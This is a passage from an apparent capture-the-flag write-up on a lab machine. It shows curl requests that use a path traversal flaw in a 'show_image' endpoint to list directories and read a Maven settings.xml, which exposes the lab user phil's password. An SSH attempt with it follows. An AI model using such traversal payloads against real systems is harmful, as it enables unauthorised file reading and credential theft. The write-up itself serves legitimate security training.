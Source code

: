 Let's take a look at it !
```
curl -s -X GET "http://10.10.11.204:8080/show_image?img=../../../../../../home/frank/.m2"
```

We have a [```settings.xml```](./content/settings.xml) file ! let's check its content !
```
<?xml version="1.0" encoding="UTF-8"?>
<settings xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema
-instance"
        xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/mave
n-4.0.0.xsd">
  <servers>
    <server>
      <id>Inject</id>
      <username>phil</username>
      <password>DocPhillovestoInject123</password>
      <privateKey>${user.home}/.ssh/id_dsa</privateKey>
      <filePermissions>660</filePermissions>
      <directoryPermissions>660</directoryPermissions>
      <configuration></configuration>
    </server>
  </servers>
</settings>
```

We now have some information about the user `Phil` !
```
user: phil
psswd: DocPhillovestoInject123
```

I tried connecting with `ssh` using the credentials but it seemed impossible...
```
ssh phil@10.10.11.204
```

Let's check if other directories have interesting files. For example, in  ```/var/www/WebApp/```
```
curl -s -X GET "http://10.10.11.204:8080/show_image?img=../../.."
```

In the output there's a [```pom.xml```](./content/pom.xml) file !
```
.classpath
.DS_Store
.idea
.project
.settings
HELP.md
mvnw
mvnw.cmd
pom.xml
src
target
```
